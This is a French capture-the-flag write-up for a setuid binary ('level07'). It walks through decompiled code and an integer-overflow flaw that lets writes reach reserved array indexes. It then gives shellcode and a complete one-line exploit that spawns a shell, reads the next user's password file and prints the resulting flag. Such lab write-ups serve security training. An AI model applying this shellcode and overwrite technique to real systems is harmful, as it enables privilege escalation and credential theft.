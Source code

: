# override: [level08]

Observations:
---

#### Détails du profil:
```md
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

#### Détails du programme:
```sh
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

#### Programme décompilé:
```c
//----- (08048630) --------------------------------------------------------
int store_number(int a1)
{
	unsigned int unum;
	unsigned int v3;

	printf(" Number: ");
	unum = get_unum();
	printf(" Index: ");
	v3 = get_unum();
	if ( v3 == 3 * (v3 / 3) || HIBYTE(unum) == 183 )
	{
		puts(" *** ERROR! ***");
		puts("	 This index is reserved for wil!");
		puts(" *** ERROR! ***");
		return 1;
	}
	else
	{
		*(_DWORD *)(a1 + 4 * v3) = unum;
		return 0;
	}
}

//----- (080486D7) --------------------------------------------------------
int read_number(int a1)
{
	int unum;

	printf(" Index: ");
	unum = get_unum();
	printf(" Number at data[%u] is %u\n", unum, *(unsigned int *)(a1 + 4 * unum));
	return 0;
}

//----- (08048723) --------------------------------------------------------
int main(int argc, const char **argv, const char **envp)
{
	char v6[400];
	int number;
	char s[20];
	unsigned int v13;

	v13 = __readgsdword(0x14u);
	number = 0;
	memset(s, 0, sizeof(s));
	memset(v6, 0, sizeof(v6));
	while ( *argv )
	{
		memset((void *)*argv, 0, strlen(*argv));
		++argv;
	}
	while ( *envp )
	{
		memset((void *)*envp, 0, strlen(*envp));
		++envp;
	}
	puts(
		"----------------------------------------------------\n  Welcome to wil's crappy number storage service!   \n"
		"----------------------------------------------------\n Commands:                                          \n"
		"    store - store a number into the data storage    \n    read  - read a number from the data storage     \n"
		"    quit  - exit the program                        \n----------------------------------------------------\n"
		"   wil has reserved some storage :>                 \n----------------------------------------------------\n");
	while ( 1 )
	{
		printf("Input command: ");
		number = 1;
		fgets(s, 20, stdin);
		s[strlen(s) - 1] = 0;
		if ( !memcmp(s, "store", 5u) )
		{
			number = store_number(v6);
			goto LABEL_13;
		}
		if ( !memcmp(s, "read", 4u) )
		{
			number = read_number(v6);
			goto LABEL_13;
		}
		if ( !memcmp(s, "quit", 4u) )
			return 0;
LABEL_13:
		if ( number )
			printf(" Failed to do %s command\n", s);
		else
			printf(" Completed %s command successfully\n", s);
		memset(s, 0, sizeof(s));
	}
}
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>`			| Cette fonction déclare le tableau `v6` de **400** octets définie à **0**, puis déclare le tableau `s` de **20** octets à **0**. <br> Ensuite dans une boucle elle lis **20** octets de l'entrée standard pour les garder dans le tableau `s`. <br> Puis si le contenu du tableau `s` est égal à `"store"` alors la fonction `<store_number>` est appelée, <br> sinon si il est égal à `"read"` la fonction  `<read_number>` est appelée, <br> sinon si il est égal à `"quit"` la fonction retourne. |
| `<store_number>`	| Lis un nombre sur l'entrée standard et le garde dans la variable `unum`, puis lis un nombre sur l'entrée standard et le garde dans la variable `v3`. <br> Ensuite le nombre est testé avec cette équation logique $(v3 == 3 * (v3 / 3))$. <br> Si cette dernière est vrai alors la fonction retourne, sinon elle change la valeur dans le tableau `a1` passé en paramètre à la case `v3 * 4` |
| `<read_number>`	| Lis un nombre sur l'entrée standard et le garde dans la variable `unum`. <br> La fonction lis ensuite la valeur dans le tableau `a1` passé en paramètre à la case `unum * 4`. <br> Cette valeur est ensuite affichée. |


#### Conclusions:
La condition dans la fonction `<store_number>` est faillible car nous pouvons tout de même écrire sur les index interdit \
en entrant un grand nombre qui après la condition va déborder car multiplié par **4**.

----
Résolution:
----
Nous allons injecter une fonction d'appel à `<system>` par groupes de **4** octets en utilisant un débordement pour chacun des index interdit. \
Et ensuite nous allons pouvoir écraser l'addresse de retour de la fonction `<main>` pour enfin quitter cette dernièere nous permettant d'exécuter le code injecté.

#### Injection:
```asm
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```

#### Commande:

```bash
(printf 'store\n1750122545\n28\nstore\n1752379183\n29\nstore\n1768042344\n1073741854\nstore\n1357089134\n31\nstore\n2581694803\n32\nstore\n2160921520\n1073741857\nstore\n4294956452\n1073741938\nquit\n'; echo $(echo 'cat /home/users/level08/.pass')) | /home/users/level07/level07
```

#### Flag: `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`



